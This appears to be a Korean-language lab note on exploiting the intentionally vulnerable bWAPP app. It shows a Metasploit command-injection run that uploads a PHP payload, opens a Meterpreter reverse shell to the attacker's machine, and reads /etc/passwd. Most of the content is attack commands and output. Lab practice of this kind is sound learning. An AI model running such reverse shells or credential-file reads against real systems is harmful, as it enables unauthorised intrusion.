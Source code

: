 * bWAPP sqli_1.php가 탐지되면 취약하다고 해줌

```bash
msf exploit(bwapp-cmdi) > run

[*] Started reverse TCP handler on 192.168.190.152:4444 
[*] Payload uploaded to images/JVX.php
[*] Sending stage (37543 bytes) to 192.168.190.143
[*] Meterpreter session 1 opened (192.168.190.152:4444 -> 192.168.190.143:57199) at 2019-02-03 11:33:21 +0900
```

* Meterpreter: 백도어와 같은 하나의 쉘로 다른 컴퓨터를 원격으로 조종할 수 있음
* shell 명령어를 사용해 상대 PC 쉘을 사용할 수 있음

```bash
meterpreter > shell
Process 27947 created.
Channel 0 created.
whoami
www-data
pwd
/var/www/bWAPP/images
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
hplip:x:104:7:HPLIP system user,,,:/var/run/hplip:/bin/false
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
gdm:x:106:114:Gnome Display Manager:/var/lib/gdm:/bin/false
pulse:x:107:116:PulseAudio daemon,,,:/var/run/pulse:/bin/false
messagebus:x:108:119::/var/run/dbus:/bin/false
avahi:x:109:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
polkituser:x:110:122:PolicyKit,,,:/var/run/PolicyKit:/bin/false
haldaemon:x:111:123:Hardware abstraction layer,,,:/var/run/hald:/bin/false
bee:x:1000:1000:bee,,,:/home/bee:/bin/bash
mysql:x:112:124:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin
dovecot:x:114:126:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
smmta:x:115:127:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:116:128:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
neo:x:1001:1001::/home/neo:/bin/sh
alice:x:1002:1002::/home/alice:/bin/sh
thor:x:1003:1003::/home/thor:/bin/sh
wolverine:x:1004:1004::/home/wolverine:/bin/sh
johnny:x:1005:1005::/home/johnny:/bin/sh
```
